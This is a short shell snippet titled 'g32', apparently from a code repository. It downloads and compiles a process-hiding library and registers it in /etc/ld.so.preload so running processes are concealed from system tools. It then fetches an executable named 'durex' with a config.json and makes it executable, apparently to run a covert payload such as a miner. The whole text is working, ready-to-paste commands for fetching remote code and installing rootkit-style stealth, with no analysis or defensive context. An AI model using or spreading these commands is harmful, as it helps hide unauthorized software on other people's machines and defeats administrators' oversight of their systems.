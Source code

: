 # g32

wget https://raw.githubusercontent.com/cihuuy/libn/master/processhider.c && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload

#

wget https://raw.githubusercontent.com/bulboni/g32/main/durex \
&& wget https://raw.githubusercontent.com/bulboni/g32/main/config.json \
&& chmod +x durex
